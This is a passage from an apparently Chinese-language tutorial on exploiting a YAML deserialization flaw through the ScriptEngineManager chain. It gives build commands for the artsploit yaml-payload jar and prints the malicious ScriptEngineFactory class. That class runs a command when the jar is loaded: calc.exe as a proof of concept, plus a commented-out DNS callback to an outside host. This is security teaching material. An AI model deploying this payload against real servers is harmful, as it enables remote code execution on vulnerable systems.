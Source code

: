 dnslog平台出现请求记录，用于验证是否存在该漏洞且ScriptEngineManager链是否可用

**命令执行**：  
现成的利用项目：[https://github.com/artsploit/yaml-payload.git](https://github.com/artsploit/yaml-payload.git)  
更改里面的命令执行代码，使用以下命令进行编译即可

```plain
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

注意：一定要使用一致的java版本进行编译  
其中在META/services文件夹的文件中，里面的内容即是我们的恶意类  
[![](assets/1701612157-f77797ed7119138edb5c9a7d3573647b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230813204529-48df84c0-39d7-1.png)  
在AwesomeScriptEngineFactory类中，它实现了ScriptEngineFactory接口

```plain
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            // Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            // Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }
```